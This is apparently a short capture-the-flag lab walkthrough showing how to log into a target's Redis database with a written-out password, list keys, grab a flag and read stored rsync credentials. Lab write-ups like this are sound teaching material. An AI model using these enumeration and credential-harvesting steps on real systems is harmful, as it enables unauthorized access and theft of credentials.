 we can connect to redis DB with this command
```
redis-cli -h 10.10.117.165 -a B65Hx562F@ggAZ@F
```

---
redis-cli commands

`keys *` list all keys

This gets us the following list:
```
10.10.117.165:6379> keys *
1) "tmp"
2) "internal flag"
3) "int"
4) "marketlist"
5) "authlist"
```

We can grab the internal flag:
```
mget "internal flag"
```


---

We have to run the `lrange` command to view the `authlist` key

This reveals:

```
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
```

